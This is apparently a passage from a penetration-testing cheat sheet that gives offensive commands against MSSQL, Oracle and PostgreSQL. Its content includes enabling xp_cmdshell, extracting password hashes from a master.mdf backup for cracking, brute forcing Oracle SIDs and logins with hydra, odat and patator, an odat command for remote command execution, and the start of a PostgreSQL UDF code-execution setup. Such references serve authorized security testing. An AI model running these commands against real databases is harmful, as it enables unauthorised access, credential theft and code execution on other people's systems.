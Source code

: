 	- If no permission
        ```
        EXEC sp_configure 'show advanced options',1
        RECONFIGURE 
        EXEC sp_configure 'xp_cmdshell',1
        RECONFIGURE
        ```
#### Backup
- `C:\Program Files\Microsoft SQL Server\MSSQL14.SQLEXPRESS\MSSQL\Backup/master.mdf`
    - Or short path `C:/PROGRA~1/MICROS~1/MSSQL1~1.SQL/MSSQL/Backup/master.mdf`
- [Invoke-MDFHashes](https://github.com/xpn/Powershell-PostExploitation/tree/master/Invoke-MDFHashes)
    - `Add-Type -Path 'OrcaMDF.RawCore.dll'`
    - `Add-Type -Path 'OrcaMDF.Framework.dll'`
    - `import-module .\Get-MDFHashes.ps1`
    - `Get-MDFHashes -mdf "C:\Users\Administrator\Desktop\master.mdf" | Format-List`
    - Use john
### Oracle
- Default Port 1521
- Check version
    - `nmap --script "oracle-tns-version" -p 1521 -T4 -sV {IP}`
- Brute Force SID
    - `hydra -L sids-oracle.txt -s 1521 {IP} oracle-sid`
    - [oracle-sid.txt](https://firebasestorage.googleapis.com/v0/b/gitbook-28427.appspot.com/o/assets%2F-L_2uGJGU7AVNRcqRvEi%2F-LcreDSG0Hi8mv8n8DIw%2F-LcrnYv40ILvFrpjKRkb%2Fsids-oracle.txt?alt=media&token=8206a9f6-af86-4a49-ac71-179ca973d836)
    - `odat sidguesser -s "{IP}" -p 1521`
- Connection
    - `tnscmd10g status --10G -p {port} -h {IP}`
- [ODAT](https://github.com/quentinhardy/odat/releases)
- Brute Force Username and Password
    - `./odat all -s {IP} -p {PORT} -d {SID}`
        - `--accounts-file` 
    - `patator oracle_login sid={SID} host={IP} user=FILE0 password=FILE1 0=~/Wordlist/users-oracle.txt 1=~/Wordlist/pass-oracle.txt`
    - `odat all -s 10.11.1.222 -p 1521 -d XEXDB`
- RCE
    - `odat-libc2.12-x86_64 ./odat-libc2.12-x86_64 dbmsscheduler -U {Username} -P {Password} -d {SID} -s {IP} --sysdba --exec "{command}" `
### PostgreSQL
#### Log
- `/etc/postgresql/{version}/main/postgresql.conf`
    - `log_statement = 'all'`
- `systemctl restart postgresql`
- `tail -f /var/log/postgresql/postgresql-10-main.log`
#### UDF
- https://github.com/martinvw/pg_exec/tree/master/libraries
- Download `.so` file
- Put them into `/tmp/pg_exec.so`
```python=
def do_query(command):
    pass # implement by yourself
loid = 1234
def delete_lo():
    command = f"SELECT lo_unlink({loid})"
    do_query(command)
delete_lo()

def create_lo():
    command = f"SELECT lo_create({loid});"
    do_query(command)
```